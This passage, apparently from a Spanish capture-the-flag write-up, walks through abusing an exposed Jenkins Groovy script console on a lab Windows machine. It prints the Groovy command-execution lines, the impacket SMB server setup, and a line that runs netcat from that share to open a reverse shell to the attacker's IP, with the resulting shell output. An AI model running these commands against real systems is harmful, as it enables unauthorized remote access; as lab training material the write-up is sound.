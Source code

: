 
## Explotación


Encontramos algo muy interesante, se trata de la **script console**, la cual permite ejecutar scripts de forma arbitraria utilizando **Groovy**, si buscamos en la [web](https://stackoverflow.com/questions/159148/groovy-executing-shell-commands) encontramos la siguiente forma de ingresar comandos:


```
println "whoami".execute().text

Result

jeeves\kohsuke
```

Observamos que podemos ejectuar comandos correctamente, en este punto como es una máquina windows utilizaremos el `netcat.exe`, para transferirlo a la máquina víctima utilizaremos `impacket-smbserver`, para compartir el `netcat` y ejectuar una reverse shell en la máquina víctima:



```
impacket-smbserver shares $(pwd) -smb2support

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Teniendo el servidor smb compartiendo el archivo, dentro de jenkins intentaremos acceder al `netcat` y ejectuarlo:


```
println "\\10.10.14.17\shares\nc.exe -e cmd 10.10.14.17 1234".execute().text
```

Sin embargo, esto falla debido a que el **backslash** se utiliza para escapar caracteres, entonces haremos uso de doble **backslash**:


```
println "\\\\10.10.14.17\\shares\\nc.exe -e cmd 10.10.14.17 1234".execute().text
```

Si observamos el servidor **smb**, hemos recibido una conexión y si revimos nuestro `netcat`:

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49684
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
